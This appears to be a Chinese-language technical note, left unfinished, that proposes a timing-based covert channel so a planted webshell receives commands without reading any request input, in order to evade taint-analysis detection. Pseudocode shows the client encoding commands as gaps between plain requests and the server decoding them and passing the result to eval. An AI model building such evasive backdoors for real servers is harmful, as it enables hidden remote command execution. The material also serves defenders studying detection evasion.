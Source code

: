 # 总体思路
当前一些webshell查杀高级的一些会基于污点传播理论。

`
污点源标记  -->  污点传递 -->  敏感函数汇聚点检查
`

污点外部来源有很多途径：get，post，cookie，测信通道，dns等等。

现在设想下如果有一种通信是基于 无任何输入源，即webshell file代码里不从http请求报文中获取任何信息，不主动向外网请求任何资源。是不是认为就没有污点源呢？
我们可以设计一个类似电报一样的协议去表达二进制：01110111 为：du.du..du..du..du.du..du..du..du。  一个"du"代表一个shell.php请求，一个"."代表一个时间单位。

前置条件: 已经上传了一个shell.php
1. 抽样统计出服务端一个http请求的大概延时，timeunit(".") = 5ms
2. 将控制命令转换为二进制编码： “whoami" --> "01110111 01101000 01101111 01100001 01101101 01101001"
3. 二进制转换为du编码："01110111 01101000 01101111 01100001 01101101 01101001" --> "du.du..du..du..du.du..du..du..du  省略"
4. du协议开始 send("<>")
5. 持续发送du协议 命令报文
6. du协议终止 send("</>")
7. webshell.php 将du协议数据转换为01 二进制
8. 命令执行

# client端伪代码：

## "du..du"

curl("webshell.php")

wait_for(mean_delay * 3)

curl("webshell.php")

## "du.du"

curl("webshell.php");

nop;

curl("webshell.php");

## 完整性纠正

如果两次请求因为网络或者其他原因导致延时，协议转换出错，客户端简单粗暴丢弃整个会话，重新开始。

#webshell.php 伪代码：
```
du_queue = ()
session_end = false
last_time = null
diff_time = cur_time - last_time
if diff_time <= mean_delay * 2
    du_queue.push(".du")
else if diff_time > mean_delay * 3 and diff_time < mean_delay * 4
    du_queue.push("..du")
    
if is_session_end(du_queue)
    session_end = true

//如果会话超时即自动清除上下文

time_out_cancel()

if  session_end
    binary = trans(du_queue)
    eval(binary)
    response.print("session end")
else 
    response.print("ok") 
```

# 总结

以上是一个设想思路先记录下来。数据传输的完整性基本上依赖

# 参考
[基于污点传递做webshell查杀](https://zhuanlan.zhihu.com/p/197553954?utm_source=wechat_session&utm_medium=social&utm_oi=62771915915264&utm_campaign=shareopn)
